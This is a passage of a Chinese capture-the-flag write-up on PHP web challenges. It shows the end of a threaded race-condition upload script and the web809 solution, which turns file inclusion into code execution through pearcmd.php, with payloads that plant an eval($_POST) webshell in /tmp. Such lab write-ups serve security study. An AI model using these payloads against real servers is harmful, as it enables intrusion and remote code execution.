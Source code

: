 ```python
    'file':'1'
}
cookies={
    'PHPSESSID': sess
}
def write():
    while True:
        r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
    while True:
        r = session.post(url2,data=data2)
        if '11123' in r.text:
            print(r.text)

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write).start()
        for i in range(1,30):
            threading.Thread(target=read).start()
    event.set()

```

只是这个需要条件竞争，可能会跑不出来

##  web809

考点：文件包含，pearcmd.php文件包含到RCE

条件：

1. 安装了pear（这样才能有pearcmd.php），在7.3及以前，pecl/pear是默认安装的；在7.4及以后，需要我们在编译PHP的时候指定`--with-pear`才会安装。
2. 开启了`register_argc_argv，`Docker环境下的PHP会开启`register_argc_argv`这个配置
3. 存在文件包含且可以包含后缀为php的文件且没有`open_basedir`的限制。

学习链接：[feng师傅的](https://blog.csdn.net/rfrder/article/details/121042290?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165691505116782425121278%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165691505116782425121278&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-121042290-null-null.185^v2^tag_show&utm_term=pear%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB&spm=1018.2226.3001.4450)

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

payload:

不出网：

```
?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/z3eyond.php+-d+man_dir=<?eval($_POST[1]);?>+-s+

?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php 
```
